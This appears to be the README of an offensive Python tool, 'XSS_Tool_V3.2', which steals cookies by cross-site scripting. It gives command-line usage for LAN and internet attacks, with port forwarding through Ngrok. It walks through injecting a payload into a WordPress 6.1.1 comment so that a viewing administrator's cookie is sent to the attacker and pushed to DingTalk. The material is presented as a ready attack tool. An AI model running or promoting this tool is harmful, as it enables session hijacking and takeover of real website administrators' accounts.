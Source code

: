 # XSS steals cookies
* The current version V3.2 updates the remote push of nails, so that you can receive victim information in real time on Android without having to face the host
* Python version 3.6 or above
* Obtain the victim's public IP address and cookie
* Compatible with Windows or Linux
## usage method
  * View help information

      ```#python3 XSS_Tool_V3.2.py -h```

  ![图片名称](./Demo_image/Help2.png "Help")  

  * LAN attack

      ```#python3 XSS_Tool_V3.2.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS_Tool_V3.2.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * We will use WordPress-6.1.1 for XSS attack simulation test
 * _If your machine has a public IP address, just listen to the local port_

# Use Extranet attack
* Enable port forwarding (Ngrok is used for demonstration)

    ![图片名称](./Demo_image/forwarding.png "Port forwarding")  


* Use Extranet attack

    ```#python3 XSS_Tool_V3.2.py -t -rh http://xxx.xxx.xxx -rp 10029```

    ![图片名称](./Demo_image/Internet1.png "Extranetattack")  


# Use Intranet attack [Do not push messages Test]
-----------------Hacker--------------------------
* You can use the - lp parameter to specify the port. If you do not write, the default port is 8888

```#python3 XSS_Tool_V3.2.py```

![图片名称](./Demo_image/Runing2.png "Run")  

* Copy payload and inject XXS injection point

![图片名称](./Demo_image/Hacking.png "Run")  

----------------Server Admin------------------------

* Normal status of administrator

![图片名称](./Demo_image/Admin_no_hack.png "Admin_no_hack")  

* The administrator was hacked to execute malicious code when viewing comments

![图片名称](./Demo_image/Admin_hacked2.png "Admin_hacked2")  

-----------------Hacker--------------------------
* Hacker gets the administrator's cookie

![图片名称](./Demo_image/Hack_Get_Cookie3.png "Hack_Get_Cookie")

# Use Intranet attack[Message push]
* @1.Use the parameter options - dt and - dk for push settings

```#python3 XSS_Tool_V3.2.py -dt xxxxx... -dk xxx```

![图片名称](./Demo_image/HackDT.png "Run")  

* @2.Or directly use the parameter dcf, provided that you have configured the parameters in the DingTalk.conf file


1.You must modify the parameters in the DingTalk.conf file to use the - dcf option

![图片名称](./Demo_image/DingTalk_Config.png "Run")  

2.The - dcf option can be used after configuration

```#python3 XSS_Tool_V3.2.py -dcf```

![图片名称](./Demo_image/Config_OK.png "Run")  

* Copy payload and inject XXS injection point



----------Injection is the same as the above demonstration steps---------------

* After the administrator cookie is obtained, it will be automatically pushed to the DingTalk platform

![图片名称](./Demo_image/PUSH.png "Run")  

* Android perspective

![图片名称](./Demo_image/Android.jpg "Run")  

